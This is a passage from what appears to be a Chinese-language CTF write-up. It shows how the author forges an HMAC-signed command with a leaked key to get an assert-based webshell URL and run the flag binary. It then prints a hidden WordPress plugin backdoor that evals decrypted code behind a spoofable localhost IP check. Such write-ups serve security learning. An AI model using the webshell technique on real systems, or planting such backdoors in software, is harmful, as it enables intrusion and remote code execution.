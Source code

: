 ```php
        }
    }
    if (hash_equals(hash_hmac('sha256', $cmd, $GLOBALS["secret_key"]), $hmac)) {
        die(eval($cmd));
    } else {
        show_error('What does the fox say?');
    }
}
```

有个比较$dir直接用数组绕过去`dir[]=`。
然后按照代码构造命令即可。

```php
<?php
$GLOBALS["secret_key"] = 'KHomg4WfVeJNj9q5HFcWr5kc8XzE4PyzB8brEw6pQQyzmIZuRBbwDU7UE6jYjPm3';
function make_command($cmd) {
    $hmac = hash_hmac('sha256', $cmd, $GLOBALS["secret_key"]);
    return sprintf('%s.%s', base64_encode($cmd), $hmac);
}
echo make_command('$_GET[0]($_POST[1]);');
```

得到一个shell: `?action=debug&dir[]=&command=JF9HRVRbMF0oJF9QT1NUWzFdKTs=.6422d88e7b05afea15a9fed7c3e1e65e4be276ea2f23b16242712d7b2885c64c&0=assert`

查看phpinfo();发现禁了一堆没多大用的函数，读目录发现flag3不能直接读，要运行题目给的`flag3/meow`来读flag。

所以直接system执行meow，结束。

### wordpress 1,2

首先在Backup File那里下载源码。还有提示说`Something strange is hidding in the source code, find it.This challenge does not require to exploit any thing.`

有点诡异。

在目录下执行`grep -r FLAG`啥也没有，换成`grep -r game`找到了`wp-content/plugins/core.php`

```php
function print_f14g()
{
    $h = 'm'.sprintf('%s%d','d',-4+9e0);
    if($h($_GET['passw0rd']) === '5ada11fd9c69c78ea65c832dd7f9bbde') {
        if(wp_get_user_ip() === '127.0.0.1') {
            eval(mcrypt_decrypt(MCRYPT_RIJNDAEL_256, $h($_GET['passw0rd'].AUTH_KEY), base64_decode('zEFnGVANrtEUTMLVyBusu4pqpHjqhn3X+cCtepGKg89VgIi6KugA+hITeeKIpnQIQM8UZbUkRpuCe/d8Rf5HFQJSawpeHoUg5NtcGam0eeTw+1bnFPT3dcPNB8IekPBDyXTyV44s3yaYMUAXZWthWHEVDFfKSjfTpPmQkB8fp6Go/qytRtiP3LyYmofhOOOV8APh0Pv34VPjCtxcJUpqIw=='), MCRYPT_MODE_CBC, $h($_GET['passw0rd'].AUTH_SALT)));
        } else {
            die('</head><body><h1>Sorry, Only admin from localhost can get flag');
        }
    }
}
add_action('wp_head', 'print_f14g');
//wp_get_user_ip在wp-includes/functions.php
function wp_get_user_ip() {
    $ip = $_SERVER['REMOTE_ADDR'];
    if (!empty($_SERVER['HTTP_CLIENT_IP'])) {
        $ip = $_SERVER['HTTP_CLIENT_IP'];
    } elseif (!empty($_SERVER['HTTP_X_FORWARDED_FOR'])) {
        $ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
    }
    return $ip;
}
```

